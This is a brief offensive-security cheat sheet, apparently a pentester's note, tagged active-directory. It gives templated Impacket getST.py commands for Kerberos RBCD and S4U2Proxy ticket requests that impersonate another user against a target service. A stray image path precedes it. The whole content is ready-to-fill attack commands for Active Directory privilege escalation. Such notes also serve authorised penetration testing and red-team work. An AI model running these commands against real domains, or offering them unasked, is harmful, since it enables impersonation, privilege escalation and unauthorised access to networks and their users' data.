 # getst
#active-directory

## RBCD
```
getST.py -spn <service|cifs>/<target> -impersonate '<imp_user>' <domain>/<user>:'<passwd>'
```

## S4U2Proxy
```
getST.py -spn <service|cifs>/<target> -additional-ticket '<ticket_file>' -impersonate '<imp_user>' <domain>/'<user>':'<passwd>'
```
